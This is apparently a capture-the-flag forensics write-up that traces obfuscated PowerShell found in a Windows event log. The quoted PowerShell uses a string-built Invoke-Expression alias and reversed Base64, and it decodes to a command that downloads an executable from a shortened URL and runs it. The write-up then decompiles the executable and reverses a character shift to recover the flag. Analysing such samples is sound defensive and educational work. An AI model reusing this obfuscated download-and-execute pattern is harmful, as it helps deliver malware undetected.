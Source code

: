 <img src="https://github.com/raul-dunca/assets/blob/main/.images/he_did_what.png?raw=true">

In the `.evtx` file, I discovered very few PowerShell events which seemed obfuscated and suspicious. Putting the commands together results in:

```shell
.\caca.exe "VHEEVH}x3uwcnad6u3eac3pvaj6tf"
$uqR = "i"+"N"+"V"+"o"+"k"+"e"+"-"+"E"+"X"+"p"+"r"+"E"+"S"+"S"+"i"+"O"+"n" ; NEW-aLIaS -naME pWN -VaLuE $uqR -FORCe ; PWN $SCr ;
$SCr = [SyStem.TexT.encODINg]::uTF8.GeTsTrInG([SYSteM.coNVErT]::froMBaSe64STrinG("$w9r4pBoZlnfIzH1keCtX")) ;
$w9r4pBoZlnfIzH1keCtX = $FBtFFDr8NXp5.ToCharArray() ; [array]::Reverse($w9r4pBoZlnfIzH1keCtX) ; -join $w9r4pBoZlnfIzH1keCtX 2>&1> $null ;
$FBtFFDr8NXp5 = "=oQDiUGel5SYjF2YiASZslmR0V3TtASKpkiI90zZhFDbuJGc5MEZoVzQilnVIRWe5cUY6lTeMZTTINGMShUYigyZulmc0NFN2U2chJUbvJnR6oTX0JXZ252bD5SblR3c5N1WocmbpJHdTRXZH5COGRVV6oTXn5Wak92YuVkL0hXZU5SblR3c5N1WoASayVVLgQ3clVXclJlYldVLlt2b25WS";
```
To decode the value of `$FBtFFDr8NXp5`, I first reversed the string. Then decode it in CyberChef using the `From Base64` function. This will reveal:

```shell
Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("aHR0cHM6Ly9zaG9ydHVybC5hdC9pbnl1ag=="))) -OutFile "caca.exe"
```


Here is again a Base64 string `aHR0cHM6Ly9zaG9ydHVybC5hdC9pbnl1ag==` which after decoding becomes `https://shorturl.at/inyuj` .

Going to the link, you can download the executable used above in the obfuscated code. Running this program or putting it in Ghidra reveals nothing about its functionality. However, assuming it was probably C# I also tried to put the program in `dnSpy`. There I found the following code::

```C#
public static void td4306d885b1c98544112b830f9bd97c6()
	{
		string str = "";
		string text = "TFCCTF{fake_flag_haha}";
		int num = Strings.Len(text);
		checked
		{
			for (int i = 1; i <= num; i++)
			{
				str += Conversions.ToString(Strings.Chr(Strings.Asc(Strings.Mid(text, i, 1)) + 2));
			}
		}
	}
```

Running it reveals something similar to the parameter found in the event logs: `VHEEVH}x3uwcnad6u3eac3pvaj6tf`, thus I assumed this is some kind of "encryption" so I reversed the logic:

```C#
public static void Main(string[] args)
    {
        string str = "VHEEVH}x3uwcnad6u3eac3pvaj6tf"; 
        string result = "";
        int num = str.Length;
        for (int i = 0; i <num; i++)
        {
            result += ((char)(str[i] - 2)).ToString();
        }
        
        Console.WriteLine(result);
    }
```

`TFCCTF{v1sual_b4s1c_a1nt_h4rd}`
